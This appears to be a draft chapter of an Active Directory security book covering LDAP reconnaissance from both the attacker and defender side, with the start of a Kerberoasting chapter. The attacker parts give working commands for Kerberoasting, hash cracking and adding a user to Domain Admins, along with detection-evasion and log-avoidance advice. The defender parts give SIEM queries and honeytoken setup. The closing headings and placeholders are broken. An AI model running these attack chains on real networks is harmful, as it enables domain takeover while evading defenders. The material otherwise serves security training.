Most LDAP queries won’t generate logs by default. But \textbf{if LDAP query auditing is enabled}, or \textbf{Advanced Threat Analytics (ATA)} or Defender for Identity is in place, you’re in the crosshairs.

Event ID 4662 logs AD object accesses—\textbf{if auditing is configured on the object class}. Smart defenders will apply SACLs to adminCount=1 users, Domain Admins group, or sensitive OUs. Your queries could trip those wires.

Solution? Query \textbf{outside of those zones first}, or use BloodHound’s -SkipGCDeconfliction to avoid domain-wide GCs.

\paragraph{\textbf{   Stay In Character}}

Everything you do should match the \textbf{expected behavior of the user you’re impersonating}.

If you’re using a helpdesk account, don’t suddenly query domain trusts or RBCD entries. If you’re on a dev machine, don’t probe GPO ACLs.

Blend in. Match access times. Mirror legitimate session behaviors.

Use BloodHound to \textbf{pivot through realistic trust chains}, not brute force every target.

\paragraph{\textbf{   Cache and Reuse What You Can}}

LDAP results don’t change often. If you’ve already pulled user lists or group maps, don’t do it again. Cache it locally. Every query is another opportunity to get flagged.

Build a lightweight local DB (like SQLite) to store:

\begin{itemize}
    \item Usernames
    \item Group memberships
    \item Hostnames and OS
    \item Timestamps

\end{itemize}
Query once. Hunt often.

\paragraph{\textbf{Reflect Real Admin Paths}}

One advanced technique? \textit{Replay legitimate queries.}

Use audit logs (if you’ve exfiltrated them), or beacon traffic from compromised admins, to \textit{mimic their LDAP patterns.} Query the same fields. Use the same time intervals. Target the same OUs.

Now you’re not just stealthy. You’re \textit{camouflaged.}

\textbf{Bottom line:} LDAP is open. Too open. But if you treat it like a zero-day and smash it with noise, you’ll get burned. The smarter play? Move like an insider. Query like IT. Pivot like an engineer.

That’s how you recon with power—and walk away clean.

\textbf{Using LDAP Recon to Drive Lateral Movement and Access Ops}

Here, we turn intelligence into movement. LDAP recon gave you the map. Now you act on it. This is where attackers shift from passive gathering to \textit{active lateral movement - }using the data you’ve pulled to walk right into privileged systems.

Recon isn’t just for show. Everything you pull from LDAP—user sessions, admin rights, machine names, delegation paths—translates directly into \textbf{targets and techniques}. This is where you stop collecting and start \textbf{moving}, using the knowledge of the domain against itself.

Let’s walk through how attackers do it, step by step.

 1. Use Session Data to Choose Jump Targets

You’ve run Invoke-UserHunter or parsed SharpHound’s session data. You see that DA\_James is logged into WKS02.corp.local. That means: if you get access to that machine, \textbf{you can steal his ticket, dump his hash, or impersonate him}.

Your playbook:

\begin{itemize}
    \item Use LDAP to confirm WKS02 is reachable and active

    \item Check if your current user has local admin on it

    \item Use PsExec, WinRM, or RDP (depending on what’s allowed) to access the box

\end{itemize}
If you can’t touch it directly, hunt for \textbf{another user} with admin rights who has a session on a machine that also sees WKS02. Jump through that path.

\paragraph{\textbf{   2. Abuse Admin Rights via LocalGroupMember Data}}

LDAP recon tells you \textbf{who is a local admin on what machines}, especially through BloodHound and SharpHound’s AdminTo relationships.

Let’s say you control svc.deploy, and LDAP tells you:

\begin{itemize}
    \item svc.deploy is a local admin on APP-SERVER01

    \item APP-SERVER01 is a session host for GPO\_Admin

\end{itemize}
You have two moves:

\begin{enumerate}
    \item Use svc.deploy to log in and execute code on APP-SERVER01

    \item Capture GPO\_Admin's creds or token

    \item Escalate your privilege via GPO modification or logon script abuse

\end{enumerate}
All triggered by data pulled from LDAP.

\paragraph{\textbf{   3. Pivot Through SPNs and Kerberoast Results}}

Earlier, you found several accounts with SPNs using LDAP:

bash

 

%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}\user" -w 'Password123!' \textbackslash{}

  -b "dc=corp,dc=local" "(servicePrincipalName=*)" samAccountName servicePrincipalName

You request their TGS using Impacket or Rubeus:

Rubeus.exe kerberoast

Then crack it with Hashcat:

hashcat -m 13100 hash.txt rockyou.txt --force

The moment you recover a plaintext password, you can authenticate as that user.

If the cracked user is:

\begin{itemize}
    \item In a privileged group → escalate

    \item Assigned to sensitive resources → access data

    \item Used in GPOs or scripts → insert persistence

\end{itemize}
Again, all rooted in LDAP-based discovery.

4. Modify ACLs to Escalate Privileges

LDAP told you that helpdesk1 has \textbf{GenericWrite} on the Domain Admins group. That means you can:

\begin{itemize}
    \item Add yourself to the group

    \item Replicate a DC ticket

    \item Forge your way to domain dominance

\end{itemize}
Using PowerView:
 
Add-DomainGroupMember -Identity "Domain Admins" -Members "lowprivuser"

Or use raw ldapmodify from Linux with the right LDIF file.

Now you're not just reading the map. You’re \textbf{rewriting it}.

5. Leverage GPO Links for Code Execution

You identified a GPO with write access by svc.gpo. That GPO is linked to the Workstations OU. Which means:

\begin{itemize}
    \item Any computer in that OU will apply the GPO

    \item You can insert a scheduled task, startup script, or registry key

    \item The next time a target logs in, \textbf{your payload runs}

\end{itemize}
Edit the GPO using gpt.ini or GroupPolicyPreferences to drop files or launch commands.

This kind of \textbf{LDAP-discovered GPO abuse} is often missed because the rights are buried in ACLs—not in group membership.

\paragraph{\textbf{   6. Act on Delegation Flags}}

LDAP revealed that web01.corp.local is TRUSTED\_FOR\_DELEGATION. You also see that it regularly hosts sessions from backup\_admin.

Your flow:

\begin{itemize}
    \item Move to web01

    \item Extract TGTs or impersonate backup\_admin to request service tickets

    \item Use those tickets to access file servers or backup systems

\end{itemize}
Or if you control a user marked TRUSTED\_TO\_AUTH\_FOR\_DELEGATION, you can impersonate \textbf{anyone} to allowed services. LDAP shows exactly which services are scoped via:

Get-DomainUser -TrustedToAuth

No need to guess. Just read and act.

\paragraph{\textbf{   7. Cycle Through SIDHistory and Shadow Access}}

You find a user with a suspicious sIDHistory. LDAP reveals:

%ldapsearch -x -H ldap://dc.corp.local -D "corp\textbackslash{}\user" -w 'Password123!' \textbackslash{}

  -b "dc=corp,dc=local" "(sIDHistory=*)" samaccountname sIDHistory

That user might not look privileged, but inherits rights from a legacy SID. This happens often during migrations.

Test access. Try accessing resources directly or running net use or dir\textbackslash{}server\textbackslash{}share. If it works, you have hidden access routes no one tracks.

\paragraph{\textbf{8. Keep It Iterative}}

The real move here isn’t any single query—it’s how you \textit{chain them}.

\begin{itemize}
    \item Use LDAP to pull sessions \textbf{→} find where admins log in
    \item Use LDAP to check access rights \textbf{→} see who controls those boxes
    \item Use LDAP to read group memberships \textbf{→} see if you can become that person
    \item Use BloodHound to map the whole thing \textbf{→} see the shortest route to DA

\end{itemize}
Then execute.

LDAP is recon. But it’s also \textit{targeting,} \textit{timing,} and \textit{execution guidance.} Everything you need is in the directory. You just need to connect the dots—and know when to move.

\textbf{Evading LDAP Logging, SIEM Detection, and Blue Team Traps}

In this final section, the gloves come off. Recon without detection is an art form. So let’s talk evasion - how skilled attackers keep their LDAP activities \textit{invisible, boring, }and buried deep in the noise. Because if they see you coming, it’s over before you even start.

There’s a myth that LDAP is stealthy by default. It’s not. It’s just \textbf{under-monitored}. But blue teams are getting smarter. They’re setting traps, watching query volumes, building baselines. And if you’re not careful, your recon becomes their alert.

Here’s how to stay invisible—even in a hardened environment.

Don’t Trip Logging SACLs

Active Directory supports object-level auditing. If a domain admin adds a System Access Control List (SACL) to something sensitive—like Domain Admins, AdminSDHolder, or Domain Controllers OU—any LDAP read or write triggers Event ID 4662.

This log tells defenders:

\begin{itemize}
    \item Who queried what

    \item Which attributes were accessed

    \item Whether it was a read or write

\end{itemize}
The catch? These SACLs aren’t universal. They’re \textbf{custom configurations}, meaning some orgs have them, others don’t.

How to avoid:

\begin{itemize}
    \item Limit queries against high-value objects

    \item Never run Get-DomainObjectAcl blindly against Domain Admins

    \item Use BloodHound’s targeting filters to exclude obvious red flags

\end{itemize}
And if you \textit{must} query a sensitive object, \textbf{do it late} in your operation, not during initial recon.

\paragraph{\textbf{   Blend Your Volume With Normal Traffic}}

SIEMs are pattern watchers. They build baselines: "User X runs 50 LDAP queries per hour." If you show up and run 5,000? That sticks out.

How to blend:

\begin{itemize}
    \item Stagger queries with Start-Sleep

    \item Query in small chunks (e.g., 50 users per request)

    \item Insert delays of 5–15 seconds between PowerView or SharpHound modules

\end{itemize}
Advanced trick: \textbf{randomize order}. Query users alphabetically? That’s a pattern. Use a shuffled list:

\$users = Get-DomainUser | Get-Random -Count 50

That makes timing unpredictable.

\paragraph{\textbf{   Avoid Global Catalog Queries}}

The Global Catalog (GC) is the fast lane of AD. It holds partial info about every object in every domain. But it’s also a magnet for detection—especially if defenders monitor TCP 3268 or event logs tied to GC access.

Default LDAP queries hit TCP 389. GC queries go to 3268.

BloodHound and SharpHound have flags like --SkipGCDeconfliction and --CollectionMethods LDAP to avoid GC entirely.

Use them.

\paragraph{\textbf{   Steer Clear of Honeypot Accounts and Traps}}

Defenders sometimes create \textbf{fake accounts} with juicy names like:

\begin{itemize}
    \item sqladmin\_backup

    \item svc\_nasadmin

    \item oldDA

    \item disabled\_joe\_admin

\end{itemize}
These don’t log in. They’re there to be queried. If someone pulls them via LDAP, the alert fires.

How to stay clean:

\begin{itemize}
    \item Cross-check last logon timestamps

    \item Avoid accounts that look suspiciously interesting

    \item Prioritize accounts with recent activity

\end{itemize}
If it looks too good to be true, it probably is.

\paragraph{\textbf{   Don’t Use Default SharpHound Timing}}

BloodHound is a double-edged sword. Powerful? Yes. But default settings are noisy. Every environment has defenders who know what SharpHound looks like.

To avoid detection:

Use custom timing with --Throttle and --Jitter

 Example:

 bash

 

SharpHound.exe -c All --Throttle 2000 --Jitter 30

\begin{itemize}
    \item Skip session collection unless you need it
    \item %Avoid running from obvious attacker paths (like C:\textbackslash{}Temp\textbackslash{} or \%USERPROFILE\%\Downloads\textbackslash{})

\end{itemize}
Better: compile your own SharpHound with randomized signatures and obfuscate filenames.

\paragraph{\textbf{  ️ %Know What LDAP Attributes Trigger Watchlists}}

Certain attributes get attention. These include:

\begin{itemize}
    \item adminCount

    \item msDS-AllowedToDelegateTo

    \item msDS-AllowedToActOnBehalfOfOtherIdentity

    \item userAccountControl

    \item sIDHistory

\end{itemize}
Queries against these in large volumes may trigger alerts.

Instead:

\begin{itemize}
    \item Query selectively

    \item Don’t pull all attributes at once

    \item Use benign queries to gather initial targets, then deep dive as needed

\end{itemize}
Example:

Get-DomainUser -Properties samaccountname,lastlogon

Then run privilege checks only on top 5\%.

\paragraph{\textbf{   Clean Up After Yourself}}

Defenders check for dropped files and persistence tools. If you’ve written .json output, logs, or recon results to disk:

\begin{itemize}
    \item Encrypt and exfil as soon as possible

    \item Wipe temp directories

    \item Use  ’s Remove-Item or Cobalt Strike’s file deletion APIs

\end{itemize}
Better yet: use in-memory tools and \textbf{write nothing to disk} unless you have to.

\paragraph{\textbf{  ️ Look Like a Helpdesk, Not a Hacker}}

The most invisible attacker? One who behaves like an admin.

If your LDAP queries mimic what helpdesk users do—looking up group membership, checking recent logons—you’ll blend in. But if you’re hitting every delegation flag and every trust relationship in 2 minutes, \textbf{you’re not blending—you’re spotlighting}.

So stay in character. Query what that user would logically query. And escalate slowly.

LDAP is a weapon. But it’s also a liability. It logs. It trips wires. And if you’re careless, it buries you.

But if you’re smart? You extract everything you need without setting off a single bell.

That’s game.

\subsection{\textbf{Defender’s View}}

\textbf{Understanding the Threat: What Makes LDAP Recon Malicious}

From a defender’s standpoint, LDAP reconnaissance is a critical early-stage tactic used by attackers to map out domain structure, identify high‑value targets, locate privileged accounts, and plan escalation—not just for curiosity, but for malicious intent. This isn’t benign polling—it’s reconnaissance crafted to prepare for credential theft, privilege escalation, lateral movement, or stealth attacks on GPOs and services. As defenders, your job is to differentiate between \textit{legitimate ad‑hoc queries} and \textit{sustained, targeted probing} designed to prepare a compromised environment for further exploitation.

A malicious recon campaign differs from normal operational behavior in several ways: patterns of access, intensity of queries, breadth of privileged attributes requested, and sequence logic tailored to mapping privilege paths. As you step into this defense journey, you’ll learn how to detect these patterns through log analysis, SIEM correlation, decoy accounts, and behavioral baselining. By the end, you’ll be able not just to detect LDAP abuse, but to \textit{respond proactively}—thwarting attackers before they escalate.

\textbf{Baselining Normal LDAP Usage - What “Normal” Looks Like}

In this section, we build your defensive foundation: understanding what \textit{normal LDAP activity }looks like so that malicious queries stand out. You can’t catch what you don’t recognize as abnormal if you don’t know what you’re actively looking at.

Before you can spot hostile LDAP recon, you need to define what “normal” looks like. In most enterprise environments, LDAP queries happen constantly. They’re generated by:

\begin{itemize}
    \item Domain-joined machines requesting authentication

    \item Users accessing shared resources

    \item Group Policy processing

    \item Email and collaboration tools (like Outlook and Teams)

    \item Admin tools like Active Directory Users and Computers (ADUC)

\end{itemize}
Here’s a classic, benign LDAP query from a domain controller’s view, using  :

 

 

\$searcher = [System.DirectoryServices.DirectorySearcher]::new()

\$searcher.Filter = "(objectClass=user)"

\$searcher.SearchScope = "Subtree"

\$searcher.PropertiesToLoad.Add("sAMAccountName") | Out-Null

\$searcher.FindAll()

This is what ADUC or a helpdesk tool might use when fetching user data. It’s scoped, shallow, and focused. In your logs, this will show up as Event ID 4662 (if auditing is enabled), or as benign network traffic on port 389 (LDAP) or 636 (LDAPS).

To establish a baseline, you need to:

\begin{itemize}
    \item \textbf{Collect logs consistently:} Enable Directory Service Access auditing via Group Policy (Advanced Audit Policy Configuration > DS Access > Directory Service Access).

    \item \textbf{Forward logs into a SIEM:} Solutions like Splunk, Sentinel, or ELK can normalize and analyze this data.

    \item \textbf{Use NetFlow or network sensors:} Watch for spikes in LDAP request volume or outbound LDAP queries from non-domain controllers.

\end{itemize}
Use   or audit logs to identify who queries what:

 

 

Get-WinEvent -FilterHashtable @\{LogName='Security'; ID=4662\} |

  Where-Object \{ \$_.Properties[1].Value -like '*LDAP*' \}

Then build behavioral baselines for:

\begin{itemize}
    \item Query volume per user/device per hour

    \item Common attribute requests (e.g., sAMAccountName, memberOf, description)

    \item Expected query sources (only workstations or service accounts—not servers that don’t use AD data)

\end{itemize}
Once that baseline is clear, the moment something breaks pattern—like a workstation querying msDS-AllowedToActOnBehalfOfOtherIdentity or a user fetching every SPN in the domain—you’ve got a signal worth chasing.

\textbf{What Malicious LDAP Recon Looks Like - Patterns, Targets, and Intent}

In this section, we pull back the curtain on the \textit{tactics, targets, }and \textit{patterns }of malicious LDAP reconnaissance. This is what it looks like when an attacker uses your own directory against you.

Malicious LDAP recon doesn’t look like an admin solving a helpdesk ticket—it looks like someone mapping your entire kingdom. The difference is scale, depth, and precision. Threat actors aren’t browsing—they’re pulling. And their targets are \textbf{always the same}: people, privileges, pathways.

Let’s break it down.

\paragraph{\textbf{   Intent: What They Want to Learn}}

\begin{itemize}
    \item \textbf{Who are the privileged users?}

 They query for adminCount=1, Domain Admins, or Enterprise Admins.

    \item \textbf{Which users have SPNs?}

 They search for accounts with servicePrincipalName=* to prep for Kerberoasting.

    \item \textbf{What systems are delegated?}

 They look for TRUSTED\_TO\_AUTH\_FOR\_DELEGATION and RBCD flags.

    \item \textbf{Which GPOs can be modified?}

 They scan for GenericWrite, WriteDACL, or WriteOwner on GroupPolicyContainer objects.

    \item \textbf{Where are users logged in?}

 They use session enumeration (either via LDAP or SMB) to identify where to move next.

\end{itemize}

\paragraph{\textbf{   Behavior: How They Query}}

Attackers will typically:

Run \textbf{broad queries}:

  

 

Get-DomainUser -Filter * -Properties samaccountname,servicePrincipalName,userAccountControl

 This pulls every user, including dormant or disabled accounts, and flags accounts with SPNs or password-related attributes.

Focus on \textbf{privileged attributes}:

  

 

Get-DomainUser -LDAPFilter "(adminCount=1)"

Query \textbf{GPOs and delegation paths}:

  

 

Get-DomainObjectAcl -ResolveGUIDs

\begin{itemize}
    \item 

    \item Dump \textbf{SIDHistory}, msDS-AllowedToActOnBehalfOfOtherIdentity, and trust relationships—stuff most admins never need.

\end{itemize}
These queries often \textbf{come in bursts} and \textbf{ask for many attributes at once}. You’ll see that in logs or traffic analysis as large payloads, high response rates, and repetitive querying from one host.

\paragraph{\textbf{⚠️ Risk Signals to Look For}}

\begin{itemize}
    \item Workstations issuing domain-wide LDAP queries
    \item Non-admin accounts querying 1000+ objects within seconds
    \item Attribute requests that include userAccountControl, servicePrincipalName, msDS-AllowedToDelegateTo.
    \item Tools like SharpHound or PowerView being used on endpoints
    \item LDAP queries followed by lateral movement attempts or ticket requests

\end{itemize}
These aren’t one-offs. They’re \textit{structured, intentional, repeatable playbooks} used by red teams, pentesters, and real attackers.

\textbf{Detecting Malicious LDAP Recon with Logs, SIEM, and Alerts}

In this section, this is where defense turns proactive. You’ll learn not just to see malicious LDAP reconnaissance - but to \textit{catch it in motion, }respond fast, and disrupt the attacker’s entire play.

Detecting malicious LDAP reconnaissance starts with one truth: attackers \textit{do not care if they leave fingerprints}. They only care if you catch them before they escalate. Your job is to have the brakes, before they hit the gas.

\paragraph{\textbf{   a) Enable LDAP and Directory Auditing}}

First, you have to \textbf{log the right things}. By default, LDAP activity isn’t logged in detail. You want to capture:

\begin{itemize}
    \item \textbf{Event ID 4662} – for Object Access, when a SACL is hit

    \item \textbf{DS Access audit policy} – with flags on user, group, computer, and gPC classes

    \item Logging on adminCount, servicePrincipalName, and delegation attributes

\end{itemize}
Enable this via Group Policy:

 

 

AuditPol.exe /set /subcategory:"Directory Service Access" /success:enable /failure:enable

Then attach SACLs to key objects:

 

 

\# Example to audit access to adminCount attribute for all users

\$obj = "CN=Users,DC=corp,DC=local"

Set-Acl -Path "AD:\$obj" -AclObject (

    Get-Acl -Path "AD:\$obj" | 

    AddAuditRule((New-Object System.DirectoryServices.ActiveDirectoryAccessRule(

       "Domain Users",

       "GenericRead",

       "Success",

       "None",

       "ObjectAndProperty",

       "adminCount"

    )))

)

This ensures you log reads of privileged attributes—exactly what malicious reconnaissance will hit.

\paragraph{\textbf{   b) Monitor Baseline vs Behavior}}

Once you have logs flowing, it’s time to build detection in your SIEM (Splunk, Sentinel, QRadar, etc.). Focus on \textbf{anomalous patterns}, such as:

\begin{itemize}
    \item \textbf{Spike in LDAP queries} from a single host or account

    \item Bulk downloads of user, group, or computer data

    \item Repeated queries for SPN, delegation, or group membership

\end{itemize}
An example in Kusto (Microsoft Sentinel):

kql

 

SecurityEvent

| where EventID == 4662 and ObjectType endswith "LDAP"

| summarize cnt = count() by Account, Computer, ObjectType, EventTime = bin(TimeGenerated, 1h)

| where cnt > 100

And in Splunk:

spl

 

index=wineventlog EventID=4662 ObjectType="*" 

| stats count by Account\_Name, src, ObjectType 

| where count > 200

Thresholds will vary, but the logic stays the same: \textbf{you should not see hundreds of queries in an hour} from a low-priv user.

\paragraph{\textbf{   c) Focus on Sensitive Attribute Reads}}

Flag queries targeting high-value attributes:

\begin{itemize}
    \item adminCount

    \item servicePrincipalName

    \item controlledObjectSystemFlags

    \item msDS-AllowedToActOnBehalfOfOtherIdentity

    \item msDS-AllowedToDelegateTo

\end{itemize}
Sample detection KQL:

kql

 

SecurityEvent

| where EventID == 4662 and (

    ObjectName contains "adminCount" or 

    ObjectName contains "servicePrincipalName" or 

    ObjectName contains "msDS-AllowedToActOnBehalfOfOtherIdentity"

)

| project TimeGenerated, Account, ObjectName, Computer

These attributes are rarely accessed by normal tools, so any read deserves scrutiny.

\paragraph{\textbf{   d) Build Custom Hunting Alerts}}

Don’t rely on generic user behavior analytics. You need \textbf{specific hunts} for:

\begin{enumerate}
    \item LDAP queries for SPN enumeration

    \item User attribute harvest targeting adminCount

    \item GPO \& delegation queries against msDS-AllowedToDelegateTo

    \item Session enumeration or memberOf dumps across OUs

\end{enumerate}
Detect when these show up outside ticketed admin activity. That moment signals focused reconnaissance.

\paragraph{\textbf{   e) Implement Deception and “Canary” Attributes}}

Inject \textbf{honeytokens} into LDAP that look legitimately sensitive:

\begin{itemize}
    \item Fake accounts in Domain Admins

    \item Fake SPNs

    \item Delegate flags on a honeypot account or OU

\end{itemize}
Monitor any read on these. Inclusion in SIEM:

 

 

\# Fake account creation

New-ADUser -Name "svc\_ReportAdmin" -Enabled \$true -AdminCount 1

Then alert on reads:

kql

 

SecurityEvent 

| where EventID == 4662 and ObjectName contains "svc\_ReportAdmin"

These reads mean \textbf{someone is mapping privilege}, not just executing routine tasks.

\paragraph{\textbf{   f) Tie LDAP with Other Recon Methods}}

Attackers rarely stop at LDAP. They’ll combine with:

\begin{itemize}
    \item \textbf{Kerberoast attempts} (Event ID 4769)

    \item \textbf{Group policy modifications}

    \item \textbf{Token theft or process injection}

    \item \textbf{Lateral movement via SMB or RDP}

\end{itemize}
Your alerting should \textit{merge logs:}

kql

 

let ldap = SecurityEvent | where EventID == 4662 and ObjectName contains "servicePrincipalName";

let kerb = SecurityEvent | where EventID == 4769;

let smb = SecurityEvent | where EventID == 4624 and LogonType == 3;

ldap

| join kerberos on Account

| join smb on Account

A single incident involving all three? That’s not recon. That’s \textit{attack setup.}

\paragraph{\textbf{g) Automated Response – Block and Investigate}}

Once detection rules fire:

\begin{enumerate}
    \item \textbf{Quarantine} the host account and ID
    \item \textbf{Rotate service account credentials} if SPNs were queried
    \item \textbf{Run memory dumps} and live process inspections
    \item \textbf{Investigate lateral movement footprints}
    \item \textbf{Review GPO changes}, ACL modifications, and next-level actions

\end{enumerate}
You’re not just logging events. You’re \textit{interrupting the attack lifecycle} during early steps.

\paragraph{\textbf{h) Continuous Improvement and Testing}}

Detection accuracy depends on testing. Use \textit{purple team exercises} to:

\begin{itemize}
    \item Run PowerView or SharpHound with stealth flags
    \item Validate that your SIEM rules fire and alert
    \item Tune thresholds to reduce false positives
    \item Submit TGS (Kerberoast) events tied to LDAP scans

\end{itemize}
Attackers change methods. So should you. Run these tests quarterly—at minimum.

Malicious LDAP reconnaissance is both simple and shrewd. But it \textit{leaves tracks}. Your job as a defender is to build observability around those tracks before they lead to your domain compromise—and then \textit{trip the alarm the moment someone tries.}

\textbf{Responding to Detected LDAP Recon - Turning Insight Into Action}

This section aims to layout how you \textit{respond ecisively }once malicious LDAP reconnaissance is detected - complete with playbooks, and practical guidelines.

Once your SIEM fires an alert on suspicious LDAP behavior—such as high-volume adminCount queries or SPN enumeration—it’s time to \textbf{take immediate, calculated action}. Every moment counts: you’re racing the attacker to escalate. This isn’t about gathering evidence—it’s about containing risk and disrupting their play.

\paragraph{\textbf{   A) Incident Triage: Initial Response Steps}}

\textbf{Verify the alert} by reviewing logs and cross-checking:

  

 

Get-WinEvent -FilterHashtable @\{LogName='Security'; ID=4662; Data='servicePrincipalName'\} |

  Select-Object TimeCreated, AccountName, ObjectName

\begin{enumerate}
    \item 

    \item Determine \textbf{source context}:

    \begin{itemize}
        \item Was it from a workstation or DC?

        \item Is the account normally administrative?

        \item Was the time of day unusual?

    \end{itemize}
\end{enumerate}
\textbf{Isolate the system/account}:

  

 

\# Disable the user temporarily

Disable-ADAccount -Identity "suspiciousUser"

\# Or quarantine the host

New-NetFirewallRule -DisplayName "Block LDAP" -RemoteIP <AlertingHostIP> -Action Block

\begin{enumerate}
    \item 

    \item \textbf{Notify Tier 0 team} to accelerate containment and forensic capture.

\end{enumerate}

\paragraph{\textbf{   B) In-Depth Investigation \& Forensics}}

\textbf{Retrieve memory dumps} from the alerting system (e.g., via Live Response).

\textbf{Check for recon tools}:

  

 

Get-Process | Where-Object \{ \$_.Path -match 'PowerView|SharpHound' \}

\begin{itemize}
    \item 

    \item Inspect network captures for LDAP/SMB activity spikes targeting elevation paths.

\end{itemize}

\paragraph{\textbf{   C) Hardening \& Mitigation}}

\textbf{Revoke compromised credentials}, especially if SPNs or delegation attributes were queried.

\textbf{Rotate service account passwords} tied to SPNs:

  

 

Set-ADAccountPassword -Identity "svcKerb" -Reset

\textbf{Apply stricter ACLs} around privileged objects:

  

 

\$acl = Get-Acl "AD:CN=Domain Admins,CN=Users,DC=corp,DC=local"

\$rule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(

  "Domain Users", "ReadProperty", "Deny", "GenericAll")

\$acl.AddAccessRule(\$rule)

Set-Acl "AD:CN=Domain Admins,CN=Users,DC=corp,DC=local" \$acl

\paragraph{\textbf{   D) Clean-Up and Remediation}}

\begin{itemize}
    \item \textbf{Purge audit logs}, re-enable services/accounts gradually.

    \item \textbf{Deploy honeytokens}: create fake SPNs, honeypot accounts with adminCount=1, and ACL on msDS-AllowedToActOnBehalfOfOtherIdentity. Monitor their reads.

    \item \textbf{Strengthen detection}: move sensitive attributes into baselined detection pipelines.

\end{itemize}

\paragraph{\textbf{   E) Lessons Learned \& Continuous Improvement}}

\begin{itemize}
    \item Document how attacker queried LDAP, what chain they were following.

    \item Add that TTP to your playbooks; test again.

    \item Train SOC/IR teams using the recorded alert timeline.

    \item Schedule \textbf{purple team sessions} every 3 months, emulating this exact recon path to validate detection improvements.

\end{itemize}

\subsubsection{\textbf{Final Word on Malicious LDAP Recon Defense}}

\textbf{Proper observability} combined with \textbf{contextual threat hunting} transforms passive logs into proactive defense. The moment an attacker starts mapping SPNs, adminCount flags, or delegation rights, you \textbf{must escalate response}. Your goal isn’t just detection—it’s early detection, immediate intervention, and systemic hardening to \textbf{make recon useless} for adversaries.

\subsection{\textbf{9. BloodHound Recon}}

\subsection{\textbf{9. SIDHistory Abuse}}

\subsection{\textbf{9. Silver Tickets}}

\subsection{\textbf{NTDS.dit Extraction}}

 

\textbf{Kerberoasting}

\textit{ABC}

Section 1: Attacker’s View

\section{\textbf{Understanding Golden Ticket Attacks}}

\begin{table}
\justifying

\begin{tabular}{| l | l |}
\hline
\textbf{What It Is in Shortform:} & \textbf{Tools Used:} \\
\hline
\textit{Golden Ticket attacks use a forged Kerberos Ticket Granting Ticket (TGT) to gain unrestricted access or resources within an Active Directory domain.} &  \\
\hline

\end{tabular}

\end{table}

\subsection{\textbf{1. Kerberoasting}}

Abuse of the Kerberos authentication protocol to extract \textit{Ticket Granting Service} \textit{(TGS) tickets} that can be brute-forced offline. From an attacker’s view, abusing the Kerberos authentication protocol through a technique commonly referred to as “Kerberoasting” represents a high-value, low-risk method for obtaining domain credentials. This attack targets service accounts within a Windows Active Directory (AD) environment, specifically accounts associated with \textit{Service Principal Names (SPNs)}. These SPNs are used by Kerberos to identify services on a network, and because of how the Kerberos ticketing system works, attackers can extract encrypted service tickets, which are then susceptible to offline brute-force or dictionary attacks. By doing so, an attacker can potentially recover the plaintext passwords of privileged service accounts without triggering alarms on the domain or service being attacked.

To execute a Kerberoasting attack, you must first gain access to a standard user account within the domain. This access can come from phishing, exploiting weak passwords, or lateral movement from an already compromised system. Once you establish toehold, you use that authenticated context to enumerate SPNs via LDAP queries. Tools like \textbf{PowerView, Rubeus}, and \textbf{Impacket’s getSPNs.py} can automate this process, listing all service accounts with registered SPNs. This step is critical, as only accounts tied to SPNs will have the required Ticket Granting Service (TGS) tickets that can be requested and subsequently cracked.

Once a list of target SPNs is obtained, you next send a request to the \textit{Key Distribution Center (KDC)}, asking for a TGS for each of the SPNs. Because you’re authenticated, the KDC will respond with the requested tickets, encrypting them with the hash of the target service account’s password. These TGS tickets are then saved locally by the attacker for offline analysis. This offline nature of the cracking process is key to the attack’s stealth, as it avoids repeated login attempts that would otherwise trigger account lockouts or alerts in most monitoring solutions.

At this point, the attacker uses tools like \textbf{Hashcat} or \textbf{John the Ripper (JtR)} to brute-force the service ticket. These tools attempt to guess the service account password by comparing hashed guesses with the encrypted portion of the TGS ticket. If the password is weak or reused across environments, it’s only a matter of time before the correct plaintext password is recovered. Once the password is cracked, the attacker can use it to impersonate the service account, potentially elevating privileges or gaining access to sensitive systems and data.

Furthermore, service accounts are often overlooked in routine security audits and may have passwords that are never changed or managed by password vaulting solutions. They may also possess elevated privileges, such as local administrator access on servers, access to databases, or even domain admin rights in misconfigured environments. This makes Kerberoasting particularly dangerous. An attacker who successfully compromises such an account gains not just persistence, but also lateral movement capabilities and potential privilege escalation routes.

Many organizations are unaware that service accounts with SPNs are exposed in this way by default. Kerberos is designed to be a secure authentication protocol, but the implementation within Active Directory allows for these tickets to be retrieved without special permissions. Moreover, because requesting a TGS is a normal operation in AD, these requests typically do not raise red flags unless defenders have specialized monitoring and anomaly detection systems in place.

This lack of visibility makes Kerberoasting an ideal for stealthy attackers who want to avoid detection while gathering credentials.

One tactic attackers often use is to prioritize service accounts that use the RC4 encryption for their Kerberos tickets. While newer versions of Windows support stronger encryption types, RC4 remains widely used for compatibility, and it’s significantly easier to brute-force compared to AES-based tickets. Attackers can specify the encryption types they prefer when requesting TGS tickets, further increasing their success rate when targeting environments that haven’t fully deprecated legacy encryption standards.

From a campaign planning perspective, Kerberoasting is often employed in the mid-to-late stages of a network intrusion. After initial access and reconnaissance, the attacker uses Kerberoasting to pivot deeper into the network, compromise higher-valued targets or establish additional backdoors. The technique scales well: once a single domain user is compromised, an attacker can enumerate and request TGS tickets for dozens or even hundreds of SPNs, all without triggering defenses if the environment lacks proper telemetry.

In some cases, attackers may combine Kerberoasting with other techniques such as \textit{AS-REP Roasting} or \textit{Golden Ticket} attacks. AS-REP roasting is used against accounts that do not require Kerberos pre-authentication, while Golden Tickets involve forging TGTs using the krbtgt account hash. When used together, these methods can provide a comprehensive path for total domain compromise, especially if the target organization lacks segmentation, password hygiene, or effective detection capabilities.

Successful Kerberoasting depends heavily on poor password policies. If service accounts have long, complex, and regularly rotated passwords, brute-forcing becomes computationally expensive and time-prohibitive; however, in many environments, attackers find that service account passwords are rarely changed and often follow predictable naming conventions. This makes dictionary attacks, particularly those using known password leaks or organizational naming schemes, highly effective.

Additionally, attackers may use obfuscation techniques to hide their Kerberoasting activities. For example, rather than using tools like Rubeus in cleartext, they may obfuscate the binaries using tools like Invoke-Obfuscation or run them from memory using reflective \textit{DLL (Dynamic Link Library)} injection. This reduces the likelihood that antivirus or \textit{Endpoint Detection and Response (EDR)} tools will detect the behavior. Some attackers will even automate the attack process with a larger script or \textit{C2 (Command and Control) framework} like \textbf{Cobalt Strike} or \textbf{Empire}, blending Kerberoasting into a multi-pronged attack campaign.

